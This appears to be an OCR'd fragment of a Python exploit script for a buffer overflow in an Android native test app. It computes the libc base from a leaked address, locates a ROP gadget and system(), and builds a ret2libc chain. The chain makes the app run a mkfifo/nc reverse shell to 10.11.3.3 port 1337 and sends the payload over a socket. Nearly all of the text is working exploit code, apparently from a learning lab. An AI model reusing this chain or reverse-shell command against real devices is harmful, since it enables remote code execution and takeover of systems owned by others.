 ```python
print"---------------------------------------------"

# Calculate Libc Base Address
print "\nStep 3: Calculate libc base address\n"
print "[!] Calculating libc base..."
leakedOffset = 0x52FBC
libcBase = int("0x"+leakedLibc, 16) - leakedOffset
print "[+] Calculated libc base: "  , hex(libcBase)
print"---------------------------------------------"

prefix = "0xfa"

overflow = "A"*208
# Inside GDB -> "p printLog" -> 0x7366a962f0 
# [!] Note: this will change each program execution due to ASLR, be sure to obtain and change each execution
# pc = "\xf0\x62\xa9\x66\x73\x00\x00\x00" 

print"\nStep 4: Obtain gadget and system address\n"
print"[!] Obtaining gadget address and system address from libc..."

# Address for the "pop" gadget (obtained via ropper): 0x000000000007f96c: ldp x0, x8, [sp, #0x20]; ldr x27, [sp, #0x10]; str wzr, [x8]; blr x27; 
pop_gadget = libcBase + 0x7f96c

# Junk data
junk = "A"*24
# ret2libc ROP chain setup
# system = "BBBBBBBB" # p system system - libcBase
# system_args = "CCCCsCCCC"
# system_args_addr = "DDDDDDDD"

# exploit = prefix + overflow + struct.pack("<Q", pop_gadget) + junk + system + "A" * 8 + system_args_addr + system_args

# libcBase + system_offset (obtained via "p system" in gdb)
system = libcBase + 0x62F3C #System = libcBase (vmmap libc.so address - system above)
print "[+] Gadget address " , hex(pop_gadget)
print "[+] System address " , hex(system)
print"---------------------------------------------"

# Use our leakedStackTop to find the beginning of our command on the stack
system_args_address = leakedStackTop + 0xB0
system_args = "C" * 32
system_args= "rm /data/data/com.example.mynativetest/f;/system/bin/toybox mkfifo /data/data/com.example.mynativetest/f;cat /data/data/com.example.mynativetest/f|/system/bin/sh -i 2>&1|/system/bin/toybox nc 10.11.3.3 1337 >/data/data/com.example.mynativetest/f"

# Build the exploit string
# ret2win exploit: exploit = prefix + overflow + pc
# ret2libc exploit: A*208 + gadget + A * 24 + system + 8 * junk + address_cmd + cmd_string
# Ropchain exploit: exploit = prefix + overflow + struct.pack("<Q",pop_gadget) + "b" * 24 + struct.pack("<Q",system) + "b" * 8 + struct.pack("<Q",system_args_address) + struct.pack("<Q", leakedStackTop) + system_args
# Reverse shell exploit
exploit = prefix + overflow + struct.pack("<Q", pop_gadget) + junk + struct.pack("<Q", system) + "A" * 8 + struct.pack("<Q", system_args_address) + struct.pack("<Q", system_args_address) + system_args

s.send(exploit)
```
